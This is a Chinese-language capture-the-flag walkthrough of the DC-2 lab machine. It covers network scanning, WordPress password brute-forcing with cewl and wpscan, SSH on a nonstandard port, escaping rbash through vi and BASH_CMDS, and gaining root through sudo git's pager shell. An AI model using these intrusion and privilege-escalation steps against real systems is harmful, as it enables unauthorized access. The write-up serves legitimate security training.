









---
tags:
  - nmap
  - Wordpress
  - CMS
  - dirsearch
  - cewl
  - wpscan
  - rbash
  - vim
  - PrivEsc
  - Linux提权
  - git提权
  - /etc/hosts
---
### Flag 1
---
老规矩
```bash
nmap -sP 192.168.1.0/24
nmap -sS 192.168.1.102
nmap -sV -p80 192.168.1.102
whatweb http://192.168.1.102
```
访问端口80发现错误

网页端访问失败，且发现 IP `192.168.1.102` 被转为域名 `dc-2/`
更改本机`/etc/hosts`文件并添加一行 IP 域名指向
```text
192.168.1.102   dc-2
```
添加后访问`192.168.1.102`，发现页面正常显示。
在`/index.php/flag/`中找到==**Flag1**==
```
**Flag 1:**

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.
```
**提示字典爆破。**

### Flag 2
---
看配置
```bash
whatweb http://192.168.1.102
```

指示 Wordpress 站点，版本 4.7.10
首先挖掘目录
```bash
dirsearch -u http://dc-2/
```

```
[01:21:12] 302 -    0B  - /wp-admin/  ->  http://dc-2/wp-login.php?redirect_to=http%3A%2F%2Fdc-2%2Fwp-admin%2F&reauth=1
```
访问`/wp-admin/`，发现登录入口

按照提示，先用`cewl`工具对网站生成字典，保存到`password.txt`，再用`wpscan`进行爆破。
`wpscan`常见命令：
```bash
# 获取版本信息
wpscan --url http://dc-2
# 扫描插件
wpscan --url http://dc-2 --enumerate p
# 枚举用户
wpscan --url http://dc-2 --enumerate u
```


```bash
cewl http://dc-2 > password.txt
wpscan --url http://dc-2 --passwords password.txt
```

得到密码
```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
以`jerry:adipiscing`登陆，在Page页找到==**Flag2**==
```
**Flag 2:**

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```

### Flag 3
---
怀疑有其他端口
```bash
nmap -sS -p- 192.168.1.102
nmap -sV -p80,7744 192.168.1.102
```

发现7744端口，尝试用`ssh`连接
```bash
ssh tom@192.168.1.102 -p 7744
```
进入系统后发现`rbash`无法执行`cat`操作，尝试用`vim`打开
```bash
vi flag3.txt
```
```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
得到==**Flag3**==。

### Flag 4
---
提示需要通过 rbash[^1] 逃逸执行`su`。
先用`vi`获得 bash：
```vim
:set shell=/bin/bash
:shell
```
构造`su`命令：
```bash
BASH_CMDS[su]=/bin/sh;su
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
echo /*
su jerry
```
进入`/home/jerry`，找到==**Flag4**==
```
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
提示 git 提权。

### Flag 5
---
列出当前用户可执行命令
```bash
sudo -l
```
```
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```
寻找 root 对应的SUID：
```bash
find / -user root -perm -4000 2>/dev/null
find / -user root -perm -u=s 2>/dev/null
```
**尝试使用 git 命令提权：**
```bash
sudo git branch --help config
sudo git branch --help status
```
打开 manual 后
```
!/bin/sh
```
成功提权！
```bash
cd ../..
cat final-flag.txt
```

```
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/ 


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
得到==**Flag5**==，收工。

## END
---
[^1]: rbash 是受限的 bash shell，对用户的操作做了诸多限制，比如不能使用`cd`命令改变目录、不能随意修改`PATH`环境变量、限制导入功能等 ，目的是提升系统安全性，限制用户在系统中的操作范围。
